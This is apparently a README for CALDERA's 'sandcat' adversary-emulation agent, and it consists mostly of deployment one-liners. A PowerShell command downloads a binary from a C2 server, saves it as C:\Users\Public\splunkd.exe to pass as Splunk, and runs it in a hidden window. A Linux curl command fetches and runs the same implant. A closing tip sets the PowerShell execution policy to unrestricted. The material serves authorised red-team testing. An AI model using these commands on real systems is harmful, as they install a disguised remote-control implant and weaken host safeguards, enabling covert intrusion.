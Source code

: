 # Presentation
#### CALDERA's windows default agent, written in GoLang. Communicates through the HTTP(S) contact by default.
```sh
$server="http://0.0.0.0";$url="$server/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$data=$wc.DownloadData($url);get-process | ? {$_.modules.filename -like "C:\Users\Public\splunkd.exe"} | stop-process -f;rm -force "C:\Users\Public\splunkd.exe" -ea ignore;[io.file]::WriteAllBytes("C:\Users\Public\splunkd.exe",$data) | Out-Null;Start-Process -FilePath C:\Users\Public\splunkd.exe -ArgumentList "-server $server -group windows" -WindowStyle hidden;
```
#### CALDERA's linux default agent, written in GoLang. Communicates through the HTTP(S) contact by default.
```sh
server="http://0.0.0.0";curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > splunkd;chmod +x splunkd;./splunkd -server $server -group linux -v
```
## Known issues
```powershell
set-executionpolicy unrestricted
```
